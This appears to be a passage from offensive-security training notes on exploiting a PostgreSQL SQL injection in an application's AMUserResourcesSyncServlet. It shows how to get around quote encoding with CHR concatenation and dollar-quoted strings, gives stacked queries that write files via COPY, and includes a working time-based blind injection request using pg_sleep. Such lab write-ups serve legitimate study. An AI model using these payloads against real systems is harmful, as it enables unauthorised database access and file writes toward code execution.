 ## Special Character Encoding
As it stands, the ability to use quotes is highly limited.
This is because when we try to send a payload with quotes, to the vulnerable URL, and analyze the log file. We see the following:

![](../../Screenshots/t2-ss10.png)

This time the error is different.
It turns out, special characters are HTML-encoded before they are sent to the database for further processing.
This means we cannot use quotes in our queries, which creates a caveat to solve.

## Using Concatenation
One of the ways in which we can bypass the quotes restriction is to use the [_CHR_](https://www.postgresql.org/docs/9.1/functions-string.html) and _concatenation_ syntax.
We can select individual characters using their code points, and concatenate them together using the double pipe (||) operator.

```postgresql
amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
-- this will give the output of "AWAE"
```

This does give us a solution, but not a stable one, as we cannot use this to execute any functions such as the COPY function which is necessary for code execution:

![](../../Screenshots/t2-ss11.png)

The _CHR_ function can be very helpful while dealing with non-printable characters, however it does not help with our quote restriction.

## Dollar Dollar
The postgres syntax also supports of dollar-quoted string constants.
Their purpose is to make it easier to read statements that contain strings with literal quotes.
Essentially, two dollar characters, can be used as a quote.
As a result, all of these statements give the same result:

```postgresql
SELECT 'print this'
SELECT $$print this$$
SELECT $TAG$print this$TAG$
```

This lets us fully bypass the quote restriction, and lets us form statements like:
```postgresql
CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
-- this will create a file called test.txt with the text "offsec"
```

## Creating The Payload
Now that we can bypass the quotes restriction and are able to execute arbitrary stacked queries, it would be helpful to verify what database privileges the vulnerable application is running with.
Remembering that we have to use a time-based blind injection, we will work on the following query that returns true if the user is DBA:

```postgresql
SELECT current_setting('is_superuser');
```

Thus, we will use the following request to trigger the database sleep function if our database user is indeed DBA:

```http
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(5)+end;--+
```

Executing the request, we get a response back delayed by 5 seconds, indicating that we indeed are the DBA user:

![](../../Screenshots/t2-ss12.png)

